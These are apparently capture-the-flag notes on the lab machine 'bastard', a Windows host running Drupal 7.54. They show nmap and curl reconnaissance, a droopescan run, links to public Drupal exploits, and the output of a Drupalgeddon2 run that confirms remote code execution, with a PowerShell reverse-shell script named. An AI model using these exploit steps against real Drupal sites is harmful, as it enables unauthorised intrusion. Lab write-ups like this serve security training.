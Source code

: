# bastard 10.10.10.9

In brief:
- Windows
- Drupal 7.54
   => Drupalgeddon2 or Drupalgeddon3
- Powershell Invoke-PowerShellTcp.ps1


```
$ nmap -sT -p- --min-rate 10000 -oA scans/alltcp 10.10.10.9
$ nmap -sU -p- --min-rate 10000 -oA scans/alludp 10.10.10.9 
80/tcp    open  http
135/tcp   open  msrpc
49154/tcp open  unknown
```

```
nmap -sV -sC -p 80,135,49154 -oA scans/scripts 10.10.10.9
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
http-robots.txt

$ curl -s http://10.10.10.9/robots.txt
$ curl -s http://10.10.10.9/CHANGELOG.txt | head
Drupal 7.54, 2017-02-01
```

Note:
IIS 7.5 => IIS for Windows 7 / Server 2008r2. 

DRUPAL scanner => droopescan

```
$ /opt/droopescan/droopescan scan drupal -u http://10.10.10.9
```

Exploit for Drupal 7.54
 - Drupal 7.x Module Services - Remote Code Execution
    -  https://www.ambionics.io/blog/drupal-services-module-rce
    - exploit_drupal_7_54.php
 - Drupalgeddon2 (March 2018)
    - https://github.com/dreadlocked/Drupalgeddon2
    - drupalgeddon2.rb

 - Drupalgeddon3 (April 2018) 

drupalgeddon2
```
# ./drupalgeddon2.rb  http://10.10.10.9/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.9/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.9/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.54
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo HHRJHXQA
[+] Result : HHRJHXQA
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
```
